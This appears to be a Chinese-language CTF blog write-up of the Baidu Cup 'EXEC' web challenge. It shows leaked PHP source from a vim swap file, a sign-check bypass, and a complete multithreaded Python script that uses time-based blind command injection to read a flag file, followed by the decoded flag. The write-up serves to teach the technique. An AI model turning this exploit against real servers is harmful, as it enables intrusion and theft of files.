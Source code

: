 ```yaml
---
title: 百度杯CTF比赛 十月场-EXEC
date: 2018-02-13 20:48:00
tags: [WEB,SKR]
categories: CTF
---
```

# 前言
这道题本来要用`bash反弹shell`的技术的，但是由于没有公网ip的服务器，我就用了命令盲注的方法，特此记录一下。
# 分析
打开链接题目提示`no sign`。查看源代码发现这一行
```html
<meta language='utf-8' editor='vim'>
```
于是就想到了`vim信息泄露`，于是访问`.index.php.swp`成功下载了源代码
```php
<html>
<head>
<title>blind cmd exec</title>
<meta language='utf-8' editor='vim'>
</head>
</body>
<img src=pic.gif>
<?php
/*
flag in flag233.php
*/
 function check($number)
{
        $one = ord('1');
        $nine = ord('9');
        for ($i = 0; $i < strlen($number); $i++)
        {   
                $digit = ord($number{$i});
                if ( ($digit >= $one) && ($digit <= $nine) )
                {
                        return false;
                }
        }
           return $number == '11259375';
}
if(isset($_GET[sign])&& check($_GET[sign])){
	setcookie('auth','tcp tunnel is forbidden!');
	if(isset($_POST['cmd'])){
		$command=$_POST[cmd];
		$result=exec($command);
		//echo $result;
	}
}else{
	die('no sign');
}
?>
</body>
</html>

```
分析源码，发现可以执行命令，但是没有回显。最先想到的就是bash反弹shell来执行命令，此外题目提示`tcp tunnel is forbidden!`，就只能反弹到udp的端口了。但是我没有公网ip的服务器咋办啊，于是联想到以前做过的sql盲注这次我来个命令盲注。
页面没有回显，就只能做基于时间的盲注了，脚本总的来说很简单，使用了多线程，下面贴出exp
```python
import requests,string,threading

def getLength(url,payload):
    data = {}
    length = 0
    for i in xrange(200):
        data['cmd']="a=$(%s);b=${#a};if test $b -eq %d;then sleep 3;fi"%(payload,i)
        try:
            r = requests.post(url,data=data,timeout=3)
        except:
            length = i
            print "the string length is {}".format(length)
            break
    return length
    
def getString(url,payload):
    global length,lock,curId,key
    data = {}
    words = string.uppercase+string.lowercase+string.digits+'/=+'
    i = 0
    while True:
        lock.acquire()
        if curId == length:
            lock.release()
            break
        i = curId
        curId += 1
        lock.release()
        for j in words:
            data['cmd']="a=$({});b=`expr substr $a {} 1`;if test $b = '{}';then sleep 8;fi".format(payload,i+1,j)
            try:
                r = requests.post(url,data=data,timeout=8)
            except:
                key[i] = j
                lock.acquire()
                print ''.join(key)
                lock.release()
                break


url = 'http://708ff2d40f1d48a5bef9408daed3fa0665c6180098394883.game.ichunqiu.com/?sign=0xabcdef'
payload = "base64 flag233.php -w 0" 
length = getLength(url,payload)
lock = threading.Lock()
curId = 0 #max(curId) = length - 1
key = ['?' for i in xrange(length)]

th=[]
for i in xrange(10):
    t = threading.Thread(target=getString,args=(url,payload))
    th.append(t)
for t in th:
    t.start()  
for t in th:
    t.join()
    
```
需要注意的是，题目使用的shell是`sh`（`dash`和`bash`的区别[看这个](http://ju.outofmemory.cn/entry/135)），所以在字串截取时不能使用`bash`的`${a:1:1}`的方式。还有就是在使用`expr substr`进行子串截取时目标字符串需要是单行的否则会出错，可以配合`head`和`tail`命令一行一行读取。这里我使用了`base64`命令将命令结果编码，防止换行或特殊字符干扰。注意要使用`base64 -w 0`关闭换行。
最后运行代码获得flag
```bash
root@kali:~# echo PD9waHAKCSRmbGFnPSdmbGFne2ExMWM4MjI3LWMyNGItNDAyNC1hMDRhLTdiOGIxOTYxZGM1ZH0nOwo/PgpoaGhoaGhoaGhoaCx0b28geW91bmcgdG9vIHNpbXBsZQo= | base64 -d
<?php
	$flag='flag{a11c8227-c24b-4024-a04a-7b8b1961dc5d}';
?>
hhhhhhhhhhh,too young too simple
root@kali:~# 

```
还需要注意的是，由于题目平台资源限制，使用多线程会导致平台反应过慢从而导致盲注的正确性降低。可以通过减少线程或是增大`sleep`的时间来增加正确率。
# 总结
算是另辟蹊径了，而且在写代码的时候学到了很多。原来不熟悉，不理解的命令用法更清楚了。但是还要注意的是，时间盲注在注入时间较长时就容易造成误差，有的字节会出错，反正再有别的解决方法时时间盲注不是优先选择的方法。